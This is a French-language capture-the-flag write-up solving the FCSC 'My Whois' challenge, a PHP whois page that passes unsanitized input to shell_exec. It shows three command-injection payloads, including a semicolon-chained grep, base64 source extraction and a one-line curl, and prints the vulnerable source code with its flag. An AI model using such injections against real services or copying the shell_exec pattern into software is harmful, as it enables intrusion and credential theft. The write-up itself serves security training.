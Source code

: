 # My Whois

catégorie | points
:---: | :---:
misc | 25

## 0x0 Intro

>Nous avons mis en place un service en ligne faisant de la recherche de nom de domaine. Pouvez-vous accédez à son code source ?
>
>http:\//challenges1.france-cybersecurity-challenge.fr:7001

## 0x1 Explications

Quelques bases en linux vous serons nécessaire pour réaliser ce challenge.
Nous allors jouer avec la ligne de commande, et je vous montrerai trois façons 
de valider ce challenge.

![challenge](./IMG/1.png)

## 0x2 Reconnaissance

Nous allons commencer par tester le service en question, voir comme il fonctionne.

![whois chatonesque](./IMG/2.png)

Nous avons bien le retour du whois comme nous l'aurions eu en tapant la commande
suivante sous linux:

```bash
whois blog.caturday-lovers.fr.nf
```

Nous pouvons donc supposer que notre demande est redirigée vers un shell, dont 
la sortie nous sera redirigée sur la page.

Pour tester cela, nous allons faire un simple **ls -alh** qui nous listera les 
fichiers présent dans le répertoire en cours, et qui sait, peut-être voir notre 
fichier à sourcer.

![test du ls](./IMG/3.png)

## 0x3 Exploitation

C'est bien ce que nous supposions, le site nous redirige la sortie d'un terminal.
Nous allons pouvoir faire ce que nous voulons de lui.

### 0x3-0 Solution 1, tout via le site

Nous savons que nous cherchons un flag dans le fichier index.php, nous avons 
sous linux une armada d'outils pour le faire, mais j'en aime un tout particulièrement,
c'est GREP.

Avec GREP nous pouvons rechercher un pattern particulier, et c'est ce que nous
allons faire ici.

Nous savons que le format des flags est FCSC {xxxx} où "xxxx" est une chaîne 
contenant des caractères ASCII imprimables. Avec Grep, nous pouvons le faire 
comme ceci:

```bash
grep -o -E "FCSC{.*?}"
```

L'option -o pour n'afficher que le résultat, et -E pour rechercher le pattern 
donné entre guillemets. La signification de **.\*?** est la suivante:

**.** = un caractère

**\*** = répété autant de fois

**?** = jusqu'au dernier caractère du pattern.

La commande à passer dans la box est donc :

```bash
; grep -E "FCSC{.*?}" index.php
```

Le **;** au début est important, c'est un opérateur de liaison qui va dire

> dès que la première commande est finie, enchaine sur la suivante

Une liste d'opérateurs est disponible [ici](https://linuxhint.com/bash_operator_examples/)

Le résultat de la commande est:

![inline web](./IMG/5.png)

### 0x3-1 Solution 2, extraction via base64

Que ce passerait-il si nous avions fait un: 

```bash
cat index.php
```
La  réponse n'est pas forcément celle attendue, en effet, le serveur va 
interpréter le code sur certaines parties, et donc le rendre illisible.

![online cat](./IMG/4.png)

Une des solutions, qui est utilisée en redteam pour extraire des données, c'est
l'utilisation de l'encodage base64, l'avantage, c'est qu'il est reversible et
qu'il conserve l'intégrité du document.

Il donne un bloc qui permet l'extraction sans être interprété, et de le décoder
ensuite sur sa machine:

![online b64](./IMG/6.png)

Il ne vous reste plus qu'a le copier et le coller dans  un document sur votre 
machine, et d'utiliser la fonction de décodage native dans votre shell:

```bash
cat base64.txt | base64 -d 
```

ou comme sur ma machine avec un alias

```bash
cat base64.txt | decode64
```

La moulinette passée, vous accédez à la source de la page:

```php

<?php
  
  /*
  ** The flag is:
  ** FCSC{2e3405155d63a7d82f215d17232ea102314509ecbe90d605cf8be26f4639153b}
  */

  ini_set('display_errors', 0);
  ini_set('display_startup_errors', 0);
  error_reporting(0);

  abstract class Command {
    public static function whois($domain) {
        $cmd = "/usr/bin/whois $domain";
        return shell_exec($cmd);
    }
  }
?>
<!doctype html>
<html lang="en">
  <head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
    <meta name="description" content="">
    <meta name="author" content="">

    <title>MyWhois</title>

    <!-- Bootstrap core CSS -->
    <link href="css/bootstrap.min.css" rel="stylesheet">
  </head>

  <body>

    <nav class="navbar navbar-expand-md navbar-dark fixed-top bg-dark">
      <a class="navbar-brand" href="index.php">MyWhois</a>
    </nav>

    <main role="main" class="container">
      <div class="jumbotron">
        <?php
          if(isset($_GET['domain']) && $_GET['domain'] !== ''){
            echo '<h1>Result: ' . $_GET['domain'] . '</h1><br>';
            echo '<pre>';
            echo Command::whois($_GET['domain']);
            echo '</pre>';
          } else {
        ?>
          <h1>MyWhois</h1>
          <p class="lead" style="margin-bottom:0px;">
            You custom whois tool!
          </p>
          <form action="index.php" method="get">
            <div class="row">
              <div class="col-sm">
                <div class="input-group mb-3">
                  <div class="input-group-prepend">
                    <span class="input-group-text" id="head-suffix">Domain</span>
                  </div>
                  <input type="text" class="form-control" placeholder="ssi.gouv.fr" id="domain" name="domain" value="">
                </div>
              </div>
            </div>
            <center>
              <button type="submit" class="btn btn-primary">Whois</button>
            </center>
          </form>
        <?php
          }
        ?>
      </div>
    </main>
  </body>
</html>
```

Il ne reste plus qu'a chercher le commentaire.

### 0x3-2 Solution 3, la ligne de commande et curl

La dernière solution proposée, est à base de ligne de commande.
Lors des précédentes méthodes, vous vous êtes peut-être aperçu que l'adresse
changeait dynamiquement avec nos requetes.

Nous pouvons utiliser ce vecteur pour réaliser une exfiltration en une seule 
ligne de commande:

```bash
curl http://challenges1.france-cybersecurity-challenge.fr:7001/index.php?domain=%3Bcat+index.php | grep -o -E "FCSC{.*?}"
```
![inline curl extraction](./IMG/7.png)

## 0x4 TL;DR

Dans cet exercice, nous avons abusé une requête qui n'était pas sécurisée, et 
qui nous à donné le champ libre pour une [Execution de code à distance](https://en.wikipedia.org/wiki/Arbitrary_code_execution).

Une fois le code executé, nous avons eu au choix:

* la possibilité d'afficher le flag sur la page
* extraire le code de la page web (utile pour voler les IDs MySQL) via base64
* utiliser curl et une ligne de commande unique afin de parser la page récupérer le flag.
